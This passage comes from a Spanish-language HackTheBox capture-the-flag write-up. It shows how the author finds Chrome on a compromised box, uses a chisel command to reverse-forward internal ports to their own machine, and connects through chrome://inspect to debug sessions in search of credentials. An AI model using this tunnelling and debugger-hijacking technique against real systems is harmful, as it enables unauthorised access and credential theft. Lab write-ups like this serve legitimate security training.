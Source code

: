 Buscando en el servidor, encuentro que tiene instalado **Google-Chrome**, lo que es raro.

![picture](/assets/images/hackthebox/sigh20.png)

Buscando en internet encuentro el siguiente [*Blog*](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/), el cual nos idica que podemos depurar las aplicaciones web corriendo por los puertos, podemos utilizarlo para buscar de las credenciales de acceso.

A continuación, reenviaremos todos los puertos para ver si algunos nos muestra algo.

- Servidor
	
```python
./chisel_1.10.0_linux_amd64 client 10.10.16.4:8888 R:8080:127.0.0.1:8080 R:33060:127.0.0.1:33060 R:45359:127.0.0.1:45359 R:35979:127.0.0.1:35979 R:38693:127.0.0.1:38693
```

Una vez el reenvío de puertos, nos vamos a **Google Chrome**, a la ruta "**chrome://inspect/#devices**" desde la máquina local.

![picture](/assets/images/hackthebox/sigh21.png)

Aquí, en "**configure**" añadimos todos los puertos reenviados (*127.0.0.1:puertos*), y nos saldrá lo siguiente.

![picture](/assets/images/hackthebox/sigh22.png)

Clicamos "*inspect*" en el primero, y nos abrirá una pestaña.
